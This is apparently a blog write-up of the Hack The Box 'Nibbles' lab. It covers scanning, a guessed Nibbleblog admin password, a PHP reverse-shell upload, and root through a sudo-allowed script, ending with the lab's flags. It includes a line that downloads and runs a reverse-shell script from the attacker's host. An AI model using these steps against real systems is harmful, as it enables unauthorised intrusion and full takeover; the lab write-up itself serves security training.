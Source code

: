 ```yaml
---
layout: post
title:  "HTB Nibble Linux"
description : Great box, bit ctfish, again SUDO permissions get you root!
tags: HTB, sudo, python
---
```


# Recon
Nmap scan
```ruby
CVEs_10.10.10.75.nmap 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.019s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| vulners:
| cpe:/a:apache:http_server:2.4.18:
| CVE-2017-7679 7.5 https://vulners.com/cve/CVE-2017-7679
| CVE-2017-7668 7.5 https://vulners.com/cve/CVE-2017-7668
| CVE-2017-3169 7.5 https://vulners.com/cve/CVE-2017-3169
| CVE-2017-3167 7.5 https://vulners.com/cve/CVE-2017-3167
|_ CVE-2019-0211 7.2 https://vulners.com/cve/CVE-2019-0211
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nikto scan privides with soe interesting directories
```ruby
+ OSVDB-3268: /nibbleblog/admin/: Directory indexing found.
+ OSVDB-3092: /nibbleblog/admin.php: This might be interesting...
+ OSVDB-3092: /nibbleblog/admin/: This might be interesting...
+ OSVDB-3092: /nibbleblog/README: README file found.
+ OSVDB-3092: /nibbleblog/install.php: install.php file found.
+ OSVDB-3092: /nibbleblog/LICENSE.txt: License file found may identify site software.
```
Dirbuster scan 
![](https://lh3.googleusercontent.com/O8O6QOXvhgZh9jnKlA59gpgYz-_wPpKX72LRQ9mip9oGFd97gVKhXle1RWT2R_OAWeKcx0NsGzCljG8AbDiwKohjJIbRbWy_rEJAHTHZpwAfMlGMPfnzNg_syKkZRBKv1a2TE3OTM3Pcpe9eZ7S6arENqx_9JISoapDs887w-u4Ol4RpHTVrBp5hhdUZCtjPM0zTzK8uLYz-kZuckxTv-KN-Jb0mQmLGxi7aC3W0UQYTHFR10DOhsqTM9kkIBH-vS34R5WScerokQxCO0Zv5QhA7irPWCVk-MbDy6LSKqymmcnJRPWNdX7T4fwfTCfv0oUScyeYFccHjsuG7D7Ecpb-BqFKagtjlOblpCR5oQ3hMMBWfuIKIK-xxA9isi2e8SZxx2Fep3iCqRQ_JwB1qo7gGGga4dKeRd_FJfvKyX6Um8_Uhe2uheAs2hPb_WomzetzhOEEHiAQW6iGfI_UquAlLfsC_4lHF7vkbPwvTW1WWAsgzm947GcWJAOj3BJRxljxvIYfCFDudCBO4_i0DOPqu0PZu3RkXMD5H-uarDw3GpA-l1OlyYuDNzhKPZhkChPr3ehC8m7JLMNboce1tiVCAmUl_1mAnjRF-ck_lCpYWeGfRs_a55x3wiYYDg6hg3j_atRE1YmoMoDh02Xdjkp8uE48FsnXpbr4X7BJLRZpQKCTjmw1RA4c=w593-h349-no)

Nikto scan
![](https://lh3.googleusercontent.com/9IJ4zVGci7GYTh3uVURd1ZM_yiataJng3rXEl7RZKyOWFspIuQ50oZHNs7TAcMpWUjOTaoPmOLDDlBFHCbuLGJkBgSryNF6j0qzAscU2T-4mxeF6sUoKr3zEAoL2LyrTScXqUp_C9FsaMFDZ312hzHwKNOnb-TdrQORtIeeY--PSRsNl5UkDirblx1bUw1aUz6gafZPt3Dgd-P8dnGEennHwCTqxc3Hr10Dggt3l84XoMu5p4VCEcoh7mAx_Gg0IY7SXyAGek-tpmlL51H4jmVLiL2i2a4eoAEcXJfF4I8X5VPZjtY2Zk3Cknl8wMEqJa1-6uJtqDi8bOx1E-8VUk2RsQNlSMNMjaYO3Dva2gveAHFq-HxJpYeuk2dndIqu2-wKBZtnpqxo5lkCeTovQZZ__ozdTw9TM5B3w1NJb9HVd39uD9k6qa9Q3V377t6m4upXjwtoY_LBOdzqZ5R4F6XTKdaOrQFhmP3nMV1MZyC-16-5O3RkDul3ic5lZpTZFqd6BgCGQZkYR5TjbZSqL12huAmjd-6GgSbOzAlwcyU8qZIV1k23p4kngH8epu0Wjj1yvuYpoD6jxoYu5Gd9yVDrzADgwaujvzqA0XIVZISYTSQTsP1Eu43nl5JQGNzLLddBHKmwMQg3yNRqYa3E1y5Jlbevn948AwvS7TEtLT0mSlTV0-By2-eA=w762-h179-no)

Nibble blog
![](https://lh3.googleusercontent.com/nwvnUxicD_EURq8eFODQ44Xz1REIRhYjmy2bWgKqmMjKMOPZaBk9tPiL1IrSRoIZlWUkiTXM4RMoJcJWCifDJEiPYtyvl8o8ddDHnbuYNyY0ChHZ2IokV-6SjW41QBLsaDzl5SopsfC1AzceKoo9CkV1wl4la5gVgPfRhUE882zQro1HkYemPDXMYxg4yfLdUM5qdQx7GXo0iG2Xm0t_td-jWN-WUjhNiFZQGdrlZU5FFaLlp7FGVBRWXm_-40VaJKYohXPN4YdNuPrxgPwTKAH2h7qgDuMaDMpSZHApDV9sz8Pkw9fu3OG3J2U8pCMS6TYmPHeF4xR7jsrys1walnA5VRDJCQBT--oLLxcjR5Kscz_A6wj4WdvQ-HAKqX4ltPiZPLeP8XlGrgW7pF7yWe5baNVgwLJHwa508llLkp5tdY9OO-bnKv-j12-Z9bdjq0GAperwo2sDH43Ihyb8caNRlwWfPkf_DNl5117wfDqNzQrC24oMDVtQuLjEnWNsmSrMdl81gskQJtDlpEZGl_LnvEz_wK90m-TSg8EEQj0FIOFaPVoLPfM8HRCFu3PVDMM9DixLiIFdSKOjyNuClrS8qHfjjplkcuZRjcMTPegxEr0KWxVbL8dKz0c01UIFeUsTOF8gjI9GGMb-xvwiIyRF2Do6ylA478m8bAVgawDl6EAvXw7YzXY=w618-h464-no)

![](https://lh3.googleusercontent.com/1bW33_11QaosNRFr2BqgoYEaMEIuoJtnOOVjTmlOBY6zRkZeqwzxIElhCdONIlz-GKCf7lJ3tFtrUAvYjPSena-x1tGXJn7ucK4LgTzwXIbaaiFsDEEKCtRgKbTajrIWCRzroAI97Rcx-G1fUKmmRxHK7rKWC5cRt4k2qwe-QDRKUT7xvfMI0DBblhYeIDvAblx9MG4HYblhjOMzcf7OHnXNpkXsRKE0d4wZH9_i1KxF9sj-FrhvYZLhS9HFLwgPQRvmZRHsqCpBke7QAIjqGKaCC-XLnoWTw2qSIDb6B1AzNZSBx_2ZB06YpyBvey3jUVIu7rwMtBgcFI-iwY6gxTdq_KEo2sw9nWhY7MTMaTSsFRHqdKD5IahdFL74hqfsEyz_1ttXeMuLD9ecbEVo8FsvM-VTZ1r-2kisZDE5NfVUsKcyNa1QLJ36qQvl2O0vsX2QC5d0eFhMflCE9iaRwjgBS2StRtSztyepU_-a-T1jUj3ZZgolxkTEXkGwPcm8IqdC4r4LjiqCDlXogsoeixzpsGdsdYCP9V7HxqutlygqBZPcwBTQdGF7E8CBRdTTG6ZOZ9XHnPYflS5jDCBBY-J5IgTMRKyWudrhBMRHP4Vwfi8XvQjPMNv7lrwJfODR3q5r9y_r4VJxB6X0LAZLrsSTPFwNQDG4OLg035j5SLKTTcVcqM6TGAE=w596-h435-no)

![](https://lh3.googleusercontent.com/NWMVhPUxMXwoSCTXW-bYa_JknTOQC_r7Zga3XzqHuC5IG6lEDmQleeFCRuapW1gE6asbIabYozIP6NExfJOOZsRezY6IdteS9BJB-9uis1uj_8YZ9pTBGnvzUdNPpxwhvpJ_6LoI67wDIGY4i3A79_KolWqC-fROUXdirKd056QJyfs0Iwsi4WQokdiSAVAa8_MRTyPlZFT_sEI4WzBbKxWJ2VX6leiM73WW6y8i083axkkiZQRai09cVaGh5MQc33rIKqLHk-QVnaIRybeqk4yedesvOmNFL7tjyNAkfADfzW52QX-ePUCMg8Joo9-8FWqLCS1hPU7nB-XvtOJqICj3MfBeJYo8KfNJyF5Sb2zUlQXijhNjil0bReMWLN_3e7ReXECg0mY9Q9TdLzWurEBm_8ux6sr3OaTDyAqfrQBtKltggsTPD0I1E158KHvo_jdmJ5C_7s-D5Ffpv1vMt9BoA9up3InQfbU5uwBxq8GdaadRTcOh3LNpRMrEevd3kME9_AgzT59o-RHNR6TDmH-x3IeBqd9agn_u0ba4hL2eADBbx1Aj8PBXem8jZdv3FWbxQ9CUydvTYGBaEOyMtkC6fJt5PAoVGsNWs1OBSw5o0Z2Cypj-PvDcBnJVEib7KRZ1WjbgSf3h43pYDaOe_y-am-TO5fpc3qJgUBop2S-EXcdCRxCGPI0=w525-h146-no)

![](https://lh3.googleusercontent.com/F3rZsw8bA2d1mBitjHMjBOeFIQUW-fI8ZImbHJof21FMBcuvWr_rDjxuM0oNnR24Yje-VRQVbwSTzNH69Y9B5X_46X4cr3GIr-XT5aq8jeaoZXcgsZfu1H4e7PAUdGtL_HXygiv7Y1GOxQMebZP9zwWcGCZd940H1xH1RJBEp-k6Cq9JCgzsn5zSIaj_DPq0EVwovyUKUO2jiGXKLUkB3cRbRdnhC3mag40YN9xphnEdAUjlhtyZvoF358P36WyNGEu9J1A6CBn3PlGKedwczqBuafjuJgM9nuhXrbt-Qmg5EKX51Z08Ah7v0_C8N5I15MOKyaOZH0qK_ThvEfuHQq8B-A02OXbq8vx_XTIgXjdDdtDGHvyKTCQxVrqMHCNU9_rCY7u8vtmG-87EdJEiN5eF4arhlvwJgSLMFkPcAacBMHIoR7hV86LTF67yYtM6HOUizej8G3tBCvW5bUnSRm7wxzG5rdvFXnYirQ9Gq9k914USrU15jG3y3cnkXG6YslYB2ZMWJtNHe3idT7titmVcLJwqEqG_uSZavBOkCcR9el0eEurzDIre5i439gTXBTYR-Pn4ZYTMVIHVnTq0N3pxRpxre8opS8e0vmn5zbTzIN8up6DQhykprM-3G8FY45vfxINERdl6ATmRgj7psGxhPzNCt9U5cpvqpVpIYGJ-1R6Q71Yp_hY=w724-h323-no)

![](https://lh3.googleusercontent.com/fOx1G3In-Usf9XZJ0qlKuc3I_il-HRkAtdSATS4GZDXk_8rD2xuCpGvi-B5o5iigwTLmUhaH7SdZdALu_oElOfU1nyFDbdPyM8w-qCUiTVKoEEZXMRNhouCRMUSQCg7klZcHbZWDo6_KI60ylkyPrbpHUxBvDoTSFRsBb-CX-h8O4IKPYyjhsnAsr9WxzgPFo1nfsouCa2MDyg-eTjTbgkZJI7c_dWGIxDibBVeKe7mSsgxakMMjOgHVpjc1xonFBn30vrR-Bc__0JnZJdcrV6rXn-i7lYqO2TNJpczYjcIJ7cTz__TjVST0ehm2iogDIgdntKzVg7mX_avsvpM8-Bz1SVhB-uOt9eVaEgckqEZFg43aJiARovdH7OAHKnR4H2V61FIf2X9F90ZX0PxCC_s_QgL1vqYtbIlnlLVCj9e3ZgOYAJnodHl9EEIGoKXB6JAgXTMknNx5gCDjSNqzJLyK5ustrPn_tIXuSpz3zQcgQk7Cnk8rq-M_rjokC89y8HkcbSKnq5Va3_f1v-BCunbvgFEEMvvxaefo5z75NIJzkD_YaIHYP1GvMhCsui3U2MiAJL9YXEsikAVEofU0SsXt20M8gO8q0OG-8UJ2Eiu4I1CFM7HTJg6axLa57zkZDX-QYmKf9-5topWjEjxyAM8Mo4EPb_wYrjdRp63xBottdLpjWSlb3i4=w669-h410-no)



# Exploitation
Nibbleblog 4.0.3 is vulnerable to Arbitrary File Upload. 
I tried bruteforcing the admin password with Hydra but not luck there. However I was successfull guessing the password: **nibble**
![](https://lh3.googleusercontent.com/NlJDIz-Zraqt9x2fKnDqAHrfAzGI7ofO5eZFB_phUoFUyq-wpb5t2Hy815htdpa4MB1z-ED8E1iT_K70z8Ve0J3VaOo3ZUsxCBR4pivGDvBOelsxnPnahfVhxEmvptC4u-2Y5yojC90AB2Td_YpZ10CNDzaPRERdjsUMt4_T6_tN1HPoEeAbkQpBfCAZia315vnPCp_YZexAF4EHBLWWgf0zvKuq7bpatff8IMg_Tztq-sXiulAYsnijjNsFldvM_a9UF2yFN-SPD33F2do9dxl2PHhS8Zb_fr4kORGjC6L5vR9XUQWlBVJFBEMKc3xXjqu6W39dtMJOQ-MNwdaowwBB5a4M346XfWPZNSuzmlIT9W5nPGVDYfI2qD1r8ym74d_SYiBZARJLhov7HNKc7cGmLBR2zQ4iIefUAD0tp6XBS--wmCqvl4WKBWGztgY4wyaCKAKA2xF3CL5O8rUi-u_HNFGG1Orhs9xkjODWNyjbTf623Ak8LlQrhBjluxscQ_Fq5Bcfsl8jW9T5EHulOHVSLBGYqXtbXN7gbTD2J8y2NSnnBfaRLGw2pfOkVYyxG7WO5XXr65RzWBfpzbrBWcNnge4C0UdiIG-Xuc1W2tIcyQff7wp5PMWgVzcQ-EwmKiAZOYA1nH-FtCJQZ_rspSL93QIdoMLqxuzgKbIUdmxcvLEmDYCvNe8=w808-h328-no)

We upload a php reverse shell, under the tab **plugins** and get user shell as nibble
![](https://lh3.googleusercontent.com/_D4O8HUsMsAphI1npaL4FcaBSLBEHTg39_6Vf_O_Ba4ymwVJBUQ9yt9nzPI8xDp8cXcY18TsD6822nAKPFallJsxzqgmigSdeh32hUWfDXDFpI8QoEd69ny6qRAbsC9eXw1ERRKBgzgoaTsVCsCc-8vg9R1mCb9OpIXAawpD3OncpbUCoclbi3ZNpGaDx6HAYQxuJuwqTo1UEOs8tACf_IOnrR-4DOBNo2jMec1uZIe4yHQogl0JETtije5j5QqE1LnG9QGZtTl8C2BcbW8Jh7aZzp_LMWtX1gbAXqW69cprrSnY-70jjmBNTZyi0of4ffIHTbvEvNx6FDRvglN1KsfT7A52yhiyWZda6QWD1uBHaEMz02AsziDFYY4T5rOS3VPYpex6WQN8Dg4DUkF4BmGhSCKCKaXJoMgNlV5qAIS2xov_GR0X7IfqGKWEgBXVKQ-POPOJxJYTCYKT5PKkQWnZgnVBfigi4h6GpyeeBI7HBfjZIQmRZd50lKKXFPBVPjQ0h9IBfOs61y9JYS6pisAjP2T4OlJfw0f4wJC6IlwVnAmW7u2FTOL3dyYTwkdzGVgL3h7tM7wAiChZ7jmujcGQjQKjvhGF2uxnwXw1_cfDfT9hfm8Jp_bQxvF9o-w7zp-JuUB7zF6TpL8WPopY0VRH_nKEJXAU76rjKaCdErHkIII4_qJD_bk=w583-h392-no)

![](https://lh3.googleusercontent.com/lBLMPxKTGghiCh-1UCk_5U1tVeZSusNgCo0-a-yBxBMQhPSTje-psP9sEQEFuu2pz1zpSeOyKWJIsBHZ2pScLEfUye8voqlICnAe-NFyMhNqhanT1oIhPlrT8vQnjTG0DRC7264-QgU_mtKwD7AA_Qjcpy8jdgeUq-pDayV31KXVWG_OK65Zk6FDLGqyizZcN8jtzWH78GSw4d_RmLvu_sgjbZpwuiyeKLUAGehOSzfYJuGwpjMAVWqLE2ni-1FbKKAR-6ub4pqBw9CvFzXCqTowd5YspfGfwiXNRORbvoY2YfzKYxnvyj1Eisa9G-Sfb8idCV59-pDvru_D7Mu7S6lZc7qf2AyzmiK6Rq_ep5pUE7ShfQGPqikLERGcc9uOYuQeDNsQgbq-L-uc3ld1-g6HR3WUQVcPSOxcYRnUrDPJb6TwLwE-zJ9Xh8itL4sD3PA8_xP0H9_EjkZP1WDNftJiXr5DsWxuGPzNGi85o6bT1cUoNRt0Z4KK3C5M86RP8Z69e02B8Q-RZPhYI-6knB11W9eRvw5OR9SrpqJ1UNkx9TwEOdHQ_FvVXSxpu2bYn4d_hS60gZxwVQ_sENBU5tOJyJStPgaaspwnJNwIASTe9Tn0_6G6IClgIkEULNG_q4ANIaBsIxL1n_AjufeZSvuvzI_kloUY2lGhZc9fuFdL-gz-ZTXE9Yk=w624-h250-no)

Shell is limited so we spawn a python shell
```ruby
wget 10.10.14.25/tcp_pty_backconnect.py
python3 tcp_pty_backconnect.py
```
# Privilege Escalation
We run LinuxEnum script and we got our potential priv-esc path
```ruby
[+] We can sudo without supplying a password!
Matching Defaults entries for nibbler on Nibbles:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/
bin\:/sbin\:/bin\:/snap/bin
User nibbler may run the following commands on Nibbles:
 (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
[+] Possible sudo pwnage!
/home/nibbler/personal/stuff/monitor.sh
```
![](https://lh3.googleusercontent.com/z0A7qNJRe-dEl30SnhG4rqTUSRiIYABrbsqfeWyax9VwL9OS_EGSiob92gvjCarf9ty2BpcOMJPxfPsBtFqqtvwLDV_zWFG3BvlrWCIqRPm-r8DCAK1z0E8_YflgoiuUSRCG2p02iV0ZdhXHE2eNjS8QfXdXSktEAiY540_EjwN2w16JxIpyC3jO2MpXIntOggxVgSrT7VPE4gLwiK3asSef10K2JpWDUmpBMjj9954oFF9IaSIuHyQyO-PF_54Ah0Tbft5rfKltEOOIitl87AmUR-s0RRQxsH4itrMBnKrtUv2HuXPUM2omf1jDVsRWk8knfspQxp1C9wKFjzr9azORMxd4yYSedqFHohrnfbz04iaZp2EaAgbxm5BQW1_iJmAqjAQ5ypAC0BRZhcePLAltZQGpNH21ZDEzzSbG7qeZ9v7okA5jMYJuZd9_zEia39jRZOgl5Tuo1QooUttoGN_XOrY2hOgyoI0fhCayyAhIgEgDJAHCH1Iof2MPrur9ZUl5fTjSub-URALSouaZRPQkbZ49Wk4UDHx0-pv9spG1Z13cYC45Ln2DmptFJLMuzoI_0UY-HZtj6v79QIc49MopnDRsVv2swDl7epr1ncqwX0__VZjxwRefNaorA3YhLj-PKuiRdQNw0ktzADTRY4vERU4R1K7m6oZCVsqq-2EPH29Q4_q1Se0=w609-h211-no)

First we mkdir the /personal/stuff directory and the we create a file called monitor.sh
![](https://lh3.googleusercontent.com/Sg65rie17x6YoZ_7knoSMAqWDJoVf2pA9DAkrv2RKN-vNlpjjmr-Rn4oBRV1Ahv1NXflHftx06L4mVbA7l_pwYQmTKcecKWVtKxe3jBReF_BlOW3mXOggehd8jW2FPD3qXJD7umK0_-pHTT7aHJyItTOCRXVk5vNQsmpNQ7iX4GA5u4UtZQF3yuTHv5ldKd0AX5JJ79-cp3p89aFaeStq7BWErdLx198S8SAC0ZNP0JcoFNUayY1Eq271waWrWPR4zXPIc3xcYq7k2IqJ2SAMfnK7qteneDLZfC96Z3Eq7i19lvx9-6kELTKk6QPwsHNhNU-2g6WrJVsynVq5npk-gvjSERmQ14Y3cnIYKvmvW0DiwPC8zzj-Ozz159mKuVXHgnzoIJEVbBdGkzeyGJFatGL4R9oS50rQwbDbn9VzlI8VJEddUis8YGMp7MrDPE5LM9SaHRNTzQh8tJ8hmg-3BGT5RCKWxbJGYNf70Yx90hUvfBrK6jGwKoFGjYoxdqede9tqxa91YUMzOYXLzg2k-PwlTHDzLIORwoYViHXX1GPjh81V3aOecD9J-WSk1asTCryvbOTAGqbiJvIAgk3XDFIWi-FVoXiBGM93OjH8Byq7KPCoTTLo_krWC12Obge2PO55tRnOh0WkObpHFZUW2P-ixwSqkyAdcdRMruGavHxQeT8sDXxJyQ=w627-h46-no)

We echo "bash" to monitor.sh and chmod it 755 and we procceed to run it as sudo and finally we got root
```ruby
sudo ./monitor.sh
```
![](https://lh3.googleusercontent.com/Fv8tYFmskENU5qCUgqUCUE6JItSeqH3y7Gny6R31Xti599zW3h8rtqRBywCRxxwYqJpHMBMBQh23MBQWS5bO992GbEx8piXZtyDFsUPW1JRKdQheG_-xPl4kkFJCjjyeJNA_s6S9AcyxD-bboovd96VkFMaqBBt4Zn8WcAGqHLobtLuj0MnqTzJ4tbvM_80bnq743iuNwgifhg0xcRj_QNUxzXiHNyLxh6Dj_KnoTmeyw6BZGaY0UafTwrFs5-SNfLbLxGyPSyv-IcK1iguW1mV8edOmKcu8N-91JBSyvnBItqFBntdK16EuJp-ai7IaSELUGtDYFVPZSq5Ep7OKNkf4QFDgeRyf2WYp7VbVdbq3vAmYFTftpYv0ubnlXZaoOn8MWxBEZIIfO1y5uvVy-YEC6lNEp9ouIvsK3AOfrI-3QY3ks4JRBnntgz3l8Qg0_ZI-rTsndd6zo9Q44JhEyf0ar-IqpvLboxXRonA7EUQzHQ6walNQQZ4gkKYMtJvcQlG1x2je7ODhEgrrwJZNogcyxHiE9yT9Wp_iPqI5JSwndB5dY0JIyEkw6o0GbBDDuqnpxlUvvMeHE-Y3rrVF_3DgNUBtsMHv5epcc0KB4A9pnRa2mogwzEqcGjioH-HK88mXeJ32Lxdzd3rVYek8VuXVEueCbdIbdzOsiapgSbw1AI5jYMDQt2A=w708-h99-no)

# FLAGS
```ruby
 ROOT  "b6d745c0dfb6457c55591efc898ef88c" 
 USER  "b02ff32bb332deba49eeaed21152c8d8"
 ```
